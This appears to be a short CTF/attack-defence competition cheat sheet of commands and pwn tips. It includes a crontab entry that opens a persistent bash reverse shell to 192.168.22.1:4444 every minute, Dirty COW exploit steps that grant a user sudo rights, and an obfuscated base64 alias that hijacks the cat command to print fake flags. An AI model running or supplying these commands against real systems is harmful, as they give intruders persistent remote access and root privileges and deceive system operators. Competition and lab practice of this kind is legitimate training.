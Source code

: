 ## SROP
`sig=SigreturnFrame()`

## signal
`signal(SIGALARM,func)`
## python deepcopy
`import copy`
`copy.deepcopy(path)`
复制整个内容而不是指针

## IDA rebase
`EDIT-->segment->rebase`
发现开pie时候地址不好找有了这个ida+gdb调试起来更加方便了.

## https://paper.seebug.org/255/#5-last_remainder
关于 malloc&free

## 主机发现
`nmap -sn 192.168.22.0/24`
## AWD_Frame DF

## 权限设置 
* find /var/www/html -type d -writable | xargs chmod 755
* find /var/www/html -type f -writable | xargs chmod 644
## 监控是否被传文件
python watch.py path
## 偷梁换柱
```sh
alias cat='python -c "exec(\"aW1wb3J0IHRpbWUKaW1wb3J0IHN5cwppbXBvcnQgaGFzaGxpYgppbXBvcnQgb3MKaWYgbGVuKHN5cy5hcmd2KSA+IDEgYW5kICJmbGFnIiBpbiAiIi5qb2luKHN5cy5hcmd2KToKCXByaW50ICJmbGFneyVzfSIgJSAoaGFzaGxpYi5tZDUoc3RyKGludCh0aW1lLnRpbWUoKS82MC8xMCkpKS5oZXhkaWdlc3QoKSkKZWxzZToKCW9zLnN5c3RlbSgiY2F0ICIrIiAiLmpvaW4oc3lzLmFyZ3ZbMTpdKSkK\".decode(\"base64\"))"'
```
## 定时任务 
```sh
echo "* * * * * /bin/bash -c 'bash -i >/dev/tcp/192.168.22.1/4444 0>&1'"|crontab
#每分钟上线报到
```
## dirty_cow
```
sudo adduser test
git clone https://github.com/dirtycow/dirtycow.github.io
cd dirtycow.github.io
gcc dirtyc0w.c -o dirtycow -Wall -pthread
./dirtycow /etc/group “$(sed ‘/\(sudo*\)/ s/$/,test/’ /etc/group)”
```
